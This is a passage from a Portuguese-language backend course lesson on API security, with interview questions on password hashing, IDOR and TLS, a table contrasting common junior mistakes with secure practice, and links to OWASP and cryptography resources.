**1. "Como você armazenaria as senhas dos usuários no banco de dados da sua API? Por que não usar criptografia AES ou hash SHA-256?"**
* **Resposta-modelo:** *"Armazenaria utilizando um algoritmo de hashing específico para senhas, como **Argon2id** (preferencial) ou **Bcrypt**, com *salt* único gerado automaticamente por usuário. Não usaria AES porque criptografia é reversível — se a chave vazar, todas as senhas ficam expostas em texto claro. E não usaria SHA-256 porque ele foi projetado para ser ultrarrápido, permitindo que GPUs testem bilhões de combinações por segundo em ataques de força bruta, ao passo que Argon2id impõe alto custo intencional de CPU e memória."*

**2. "Explique a diferença entre Autenticação e Autorização, e dê um exemplo de falha de autorização comum em APIs."**
* **Resposta-modelo:** *"Autenticação responde 'quem é você?' (por exemplo, validar login e senha ou um token JWT válido). Autorização responde 'o que você pode fazer?' (verificar permissões e propriedade dos recursos). Uma falha clássica de autorização — número 1 do OWASP Top 10 — é o **IDOR (Broken Access Control)**: a API valida que o usuário tem um JWT legítimo, mas na rota `GET /api/faturas/:id` esquece de checar se a fatura pertence àquele usuário (`fatura.userId === req.user.sub`), permitindo que qualquer cliente autenticado leia faturas alheias apenas alterando o número na URL."*

**3. "Como funciona o HTTPS na prática — ele usa criptografia simétrica ou assimétrica?"**
* **Resposta-modelo:** *"Usa as duas em conjunto! Durante o handshake inicial do TLS, o servidor apresenta seu certificado digital contendo sua chave pública (assinada por uma Autoridade Certificadora confiável) e usa criptografia **assimétrica** para autenticar o servidor e negociar com segurança uma chave de sessão compartilhada. Como criptografia assimétrica é computacionalmente lenta, todo o tráfego de dados HTTP subsequente passa a ser protegido por criptografia **simétrica** rápida (como AES-256-GCM ou ChaCha20) usando aquela chave temporária exclusiva da sessão."*

### ⚖️ Erros Clássicos de Júnior vs. Postura Profissional

| ❌ Erro Clássico de Júnior | ✅ Postura Profissional |
| :--- | :--- |
| Colocar `JWT_SECRET = "segredo123"` ou chaves da AWS direto no código-fonte | Gerar chaves de entropia alta (`openssl rand -hex 32`), injetar via env/secret manager e usar `gitleaks`/secret scanning. |
| Usar `cors({ origin: "*" })` com `credentials: true` ou deixar sem Helmet | Definir allowlist explícita de origens confiáveis, usar Helmet (CSP, HSTS) e validar todos os inputs com Zod/Joi. |
| Verificar apenas se o usuário está logado (`if (req.user)`) sem checar dono do recurso | Validar propriedade e RBAC (`where: { id, userId: req.user.sub }`) em todas as rotas privadas. |
| Desligar validação TLS (`NODE_TLS_REJECT_UNAUTHORIZED=0`) para "consertar" erro de certificado | Nunca desativar validação TLS em produção; configurar a CA correta ou certificados válidos via Let's Encrypt. |

### 🌟 Evidência para Portfólio / GitHub / LinkedIn

* **No GitHub:** documente no `README.md` dos seus projetos backend uma seção **"Arquitetura de Segurança"**, listando explicitamente: queries parametrizadas, hashing com Argon2id/Bcrypt, validação de inputs, rate limiting no login, cabeçalhos Helmet/CSP e `Authorization` + controle de propriedade (anti-IDOR). Adicione GitHub **Dependabot** e **CodeQL/Secret Scanning** habilitados no repositório público!
* **No LinkedIn:** escreva um post didático desmistificando o mito *"JWT é criptografado?"* com um exemplo visual claro, mostrando que você domina os fundamentos de segurança que muitas equipes só lembram depois de um incidente.

---

## 8. 📡 Transmissões Recomendadas & Próxima Órbita

### 📚 Recursos Oficiais da Nave (`data.js`)
* [OWASP Top 10 (Oficial)](https://owasp.org/www-project-top-ten/) — O documento de referência mundial sobre os 10 riscos mais críticos em aplicações web.
* [JWT.io (Debugging de tokens)](https://jwt.io/) — Ferramenta interativa para inspecionar cabeçalhos, payloads, algoritmos e assinaturas de JWTs.
* [Crypto 101 (Curso aberto de criptografia)](https://www.crypto101.io/) — Livro/curso aberto introdutório excelente sobre criptografia simétrica, assimétrica, hashes e TLS sem matematiquês inacessível.

### 🧭 Conexão com a Próxima Órbita
Agora sua nave está empacotada em Docker, automatizada com CI/CD, escalando na nuvem e protegida com escudos criptográficos. Mas quando ela voar em produção às 3h da manhã e algo começar a ficar lento — ou alguém tentar derrubar sua autenticação — como você vai enxergar o que está acontecendo lá dentro? Chegou a hora de ligar os radares na última aula da Galáxia 4: **[Aula 21 — Observabilidade & Monitoramento](./21-observabilidade-monitoramento.md)** (`observabilidade`).
